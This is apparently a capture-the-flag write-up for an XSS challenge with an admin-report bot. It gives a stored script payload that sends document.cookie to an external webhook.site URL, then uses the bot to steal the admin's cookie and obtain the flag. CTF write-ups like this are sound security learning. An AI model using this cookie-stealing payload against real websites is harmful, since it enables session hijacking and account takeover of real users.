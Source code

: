The description says that its an upgraded version of the "My First XSS" challenge and can report to admin.<br>
<br><img width="529" alt="image" src="https://user-images.githubusercontent.com/79892065/160345480-c18b3207-b5b6-4109-b487-83d365e534f0.png"><br>
<br>Reporting to admin, probably trying to steal admin cookies?
<br>https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/
<br>We can create a webhook in https:/webhook.site
<br>We can also create a payload in the add comment ``<script>document.write('<img src="[WEBHOOKURL]?c='+document.cookie+'" />');</script>``<br>
<br><img width="801" alt="image" src="https://user-images.githubusercontent.com/79892065/160345806-c545f1c2-3dca-4f28-aeca-dd418d3e6e62.png"><br>
<br>Pasting the webhook url in the payload, and submit the payload to the server
<br>After we reload the website, we see the unloaded image<br>
<br><img width="845" alt="image" src="https://user-images.githubusercontent.com/79892065/160345956-a2b48fce-1ea0-4c3a-917b-3442b0f7489f.png"><br>
<br>And checking the webhook site we see it worked! It's successfully stealed our user cookie
<br>We can now press on the "Report Admin" button and the bot should visit the website to let our webhook site steal the cookie
<br><img width="797" alt="image" src="https://user-images.githubusercontent.com/79892065/160346340-301a8522-88a5-4e65-b1b7-99d40e47c05c.png"><br>
<br>And we got the flag!
